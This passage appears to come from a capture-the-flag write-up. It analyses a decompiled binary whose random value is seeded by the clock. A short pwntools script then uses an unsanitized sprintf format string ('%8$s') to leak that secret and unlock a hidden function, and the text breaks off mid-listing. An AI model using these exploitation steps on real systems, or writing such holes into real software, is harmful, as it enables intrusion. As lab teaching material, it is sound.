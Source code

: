 Pay special attention to `randGen()`. It seems that it's generating a special "random" value that we can then provide as a command to gain access to another function.  \
```c

void randGen(void **param_1)

{
  int iVar1;
  void *pvVar2;
  time_t tVar3;
  ulong local_18;
  
  pvVar2 = malloc(10);
  tVar3 = time((time_t *)0x0);
  srand((uint)tVar3);
  for (local_18 = 0; local_18 < 10; local_18 = local_18 + 1) {
    iVar1 = rand();
    *(char *)(local_18 + (long)pvVar2) = (char)iVar1;
  }
  *param_1 = pvVar2;
  return;
}
```
Ah, this is a classic `Bad Seed` vulnerability. So this is actually not random, we could initialize another process at the exact same time and have the same seed as the program, allowing us to "predict" their randomness. However due to network delays and the like I didn't want to deal with this.  
There is actually another way...  
I don't know if this was intended but
```c
sprintf(local_82,input_buf);
```
They are using user input without sanitizing...
This is a format string vulnerability! This should actually be enough to pwn the program, since it gives us both a read and a write primitive, but we will actually only use it for leaking the random value as it is easier to exploit without using the format string write.  
```python
io.recvuntil(b"ls")
io.sendline(b"%8$s")
io.recvuntil(b": ")
leak = io.recv(10)
print(leak)
io.recvuntil(b"ls")
io.sendline(leak)
```
Using gdb we can find out what input we need to give to leak the secret value.  
Now that we know the secret value we get access to another function.  
```c
void allowCopy(void)

{
  int iVar1;
  ssize_t sVar2;
  size_t sVar3;
  long in_FS_OFFSET;
  int local_90;
  int local_8c;
  int local_88;
  ulong local_80;
  char local_68 [10];
  undefined2 uStack_5e;
  undefined4 uStack_5c;
  char input_buf [40];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
```